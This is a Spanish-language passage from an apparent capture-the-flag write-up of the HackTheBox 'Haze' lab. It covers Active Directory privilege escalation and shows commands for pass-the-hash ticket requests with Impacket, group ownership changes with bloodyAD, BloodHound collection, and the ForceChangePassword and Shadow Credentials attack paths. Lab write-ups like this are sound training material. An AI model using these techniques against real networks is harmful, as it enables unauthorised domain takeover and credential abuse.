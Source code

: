Realizaremos una serie de pasos que nos brindarán control sobre el grupo. Primeramente solicitaremos un TGT (Ticket Granting Ticket) para utilizar autenticación `kerberos`

~~~ bash
ntpdate 10.10.11.61 && getTGT.py haze.htb/Haze-IT-Backup -hashes :4de830d1d58c14e241aff55f82ecdba1 -dc-ip 10.10.11.61
2025-06-29 00:09:30.48961 (-0400) +0.210397 +/- 0.167326 10.10.11.61 s1 no-leap
Impacket v0.13.0.dev0+20250109.91705.ac02e0ee - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Haze-IT-Backup.ccache
~~~

Asignaremos a la cuenta `Haze-IT-Backup$` como propietario del grupo `Support_Services`

~~~ bash
KRB5CCNAME=Haze-IT-Backup.ccache bloodyAD --host dc01.haze.htb -d haze.htb -k --dc-ip 10.10.11.61 set owner Support_Services 'Haze-IT-Backup$'

[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on Support_Services
~~~


## Collecting Data for Bloodhound Again

Recolectaremos nuevamente información para analizarla con BloodHound, porque hemos modificado ACL, por lo que ahora con la cuenta `Haze-IT-Backup$` contamos con permisos adicionales sobre el grupo `Support_Services`

~~~ bash
bloodhound-python -d haze.htb -ns 10.10.11.61 --zip -c All -u 'Haze-IT-Backup$' --hashes :4de830d1d58c14e241aff55f82ecdba1
~~~


## Abusing ACL - `ForceChangePassword` and `AddKeyCredentialLink`

El grupo `Support_Services` posee los derechos `ForceChangePassword` y `AddKeyCredentialLink` sobre el usuario `edward.martin`. Esto podría permitir dos escenarios:

- Cambiar la contraseña del usuario abusando de `ForceChangePassword`
- Shadow Credentials gracias a `AddKeyCredentialLink`

![image-center](/assets/images/posts/haze-bloodhound-2.png)
{: .align-center}
